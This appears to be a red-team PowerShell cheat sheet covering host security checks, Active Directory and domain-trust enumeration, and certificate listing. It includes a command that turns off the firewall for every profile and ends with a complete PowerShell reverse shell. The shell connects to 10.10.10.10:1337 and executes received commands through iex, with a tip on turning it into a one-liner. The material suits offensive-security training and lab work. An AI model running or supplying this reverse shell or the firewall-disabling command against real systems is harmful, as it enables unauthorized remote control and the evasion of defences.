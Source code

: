 ## Host Security Detection
```powershell
Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct     # Windows servers may not have SecurityCenter2
Get-Service WinDefend
Get-MpComputerStatus                                                            # Get the status of security solution elements
Get-MpThreat                                                                    # History of detected threats
Get-NetFirewallProfile | Format-Table Name, Enabled                             # Firewall details
Get-NetFirewallRule | select DisplayName, Enabled, Description                  # Show all enable firewall rules
Get-NetFirewallRule | findstr "rulename"                                        # Find specific rule with findstr
Set-NetFirewallProfile -Profile Domain, Public, Private -Enabled False          # disable a firewall
```

## Active Directory
```powershell
# Certain Privileges!
Get-ADUser -Filter *
Get-ADUser -Filter * -SearchBase "CN=Admin,OU=THM,DC=redteam,DC=com" # CN=Common Name, DC=Domain Component, OU=OrganizationalUnitName, et
Get-ADForest | Select-Object Domains
Get-ADDomain | Select-Object NetBIOSName, DNSRoot, InfrastructureMaster
Get-ADTrust -Filter * | Select-Object Direction,Source,Target
Get-NetDomain
Get-NetDomainController
Get-NetForest
Get-NetDomainTrust
```

## Certificates
```powershell
Get-ChildItem -Path cert:\LocalMachine
```

## Powershell Reverse Shell
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10', 1337);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
}
$client.Close();
```
Enclose with:
```powershell
 powershell -c "<code>"
```
For the one liner
